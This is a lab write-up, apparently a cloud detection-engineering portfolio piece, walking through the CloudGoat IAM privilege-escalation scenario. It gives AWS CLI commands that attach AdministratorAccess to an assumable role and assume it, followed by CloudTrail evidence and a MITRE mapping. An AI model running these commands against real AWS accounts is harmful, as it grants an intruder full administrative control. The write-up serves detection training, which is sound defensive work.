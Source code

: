 # 🧪 Attack Walkthrough: IAM Privilege Escalation by Role Attachment

This walkthrough demonstrates an IAM privilege escalation attack from the [CloudGoat](https://github.com/RhinoSecurityLabs/cloudgoat) scenario `iam_privesc_by_attachment`.

---

## 🎯 Objective

Gain administrative access by attaching `AdministratorAccess` to a role (`cg-ec2-mighty-role`) that the low-privileged user (`kerrigan`) can assume.

---

## 🛠️ Environment

- **User:** `kerrigan`
- **Target Role:** `cg-ec2-mighty-role`
- **Region:** `us-east-1`
- **Logging:** Enabled via Terraform (CloudTrail + VPC Flow Logs)

---

## ✅ Step-by-Step Attack

### 1. Export `kerrigan`'s credentials

```bash
export AWS_ACCESS_KEY_ID=AKIA************
export AWS_SECRET_ACCESS_KEY=wJalr*************
export AWS_DEFAULT_REGION=us-east-1
```

### 2. List roles to find target

```bash
aws iam list-roles
```

Look for: `cg-ec2-mighty-role`

---

### 3. Attach Admin Policy to Role

```bash
aws iam attach-role-policy \
  --role-name cg-ec2-mighty-role \
  --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```

> 🎯 This is the **privilege escalation** action.
> It will generate a CloudTrail event for `AttachRolePolicy`.

---

### 4. Assume the Escalated Role

```bash
aws sts assume-role \
  --role-arn arn:aws:iam::<your-account-id>:role/cg-ec2-mighty-role \
  --role-session-name escalate
```

Export the returned credentials:

```bash
export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<SessionToken>
```

---

### 5. Confirm Admin Access

```bash
aws iam list-users
aws ec2 describe-instances
```

✅ If these succeed, you have full admin access.

---

## 📄 CloudTrail Evidence

Check CloudTrail logs (in `us-east-1`) for:

- `eventSource`: `iam.amazonaws.com`
- `eventName`: `AttachRolePolicy`
- `userIdentity.arn`: `arn:aws:iam::<account>:user/kerrigan`

This confirms the escalation was captured by your Terraform-logged environment.

---

## 🧠 MITRE ATT&CK Mapping

| Tactic    | Technique                    | ID       |
|-----------|------------------------------|----------|
| Privilege Escalation | Modify Cloud IAM Role Permissions | T1484.1 |

---

## 📎 Next Step

➡️ [Write the Sigma detection rule](https://github.com/securityAD/detection-as-code-lab/blob/main/detections/iam_privesc_attach_role.yml)

---

*Lab completed as part of my cloud detection engineering portfolio.*
